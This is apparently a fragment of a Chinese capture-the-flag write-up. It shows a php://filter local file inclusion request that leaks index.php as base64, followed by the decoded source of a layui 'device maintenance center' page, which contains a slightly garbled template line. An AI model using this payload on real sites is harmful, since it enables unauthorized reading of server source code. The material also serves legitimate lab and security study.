- /index.php?page=php://filter/read=convert.base64-encode/resource=index.php

解码后的输出如下：

```php
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);


?>
<!DOCTYPE HTML>
<html>

<head>
    <meta charset="utf-8">
    <meta name="renderer" content="webkit">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <link rel="stylesheet" href="layui/css/layui.css" media="all">
    <title>设备维护中心</title>
    <meta charset="utf-8">
</head>

<body>
    <ul class="layui-nav">
        <li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
    </ul>
    <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
        <legend>设备列表</legend>
    </fieldset>
    <table class="layui-hide" id="test"></table>
    <script type="text/html" id="switchTpl">
        <!-- 这里的 checked 的状态只是演示 -->
        <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="开|关" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
    </script>
    <script src="layui/layui.js" charset="utf-8"></script>
    <script>
    layui.use('table', function() {
        var table = layui.table,
            form = layui.form;

        table.render({
            elem: '#test',
            url: '/somrthing.json',
            cellMinWidth: 80,
            cols: [
                [
                    { type: 'numbers' },
                     { type: 'checkbox' },
                     { field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
                     { field: 'name', title: '设备名', templet: '#nameTpl' },
                     { field: 'area', title: '区域' },
                     { field: 'status', title: '维护状态', minWidth: 120, sort: true },
                     { field: 'check', title: '设备开关', width: 85, templet: '#switchTpl', unresize: true }
                ]
            ],
            page: true
        });
    });
    </script>
```
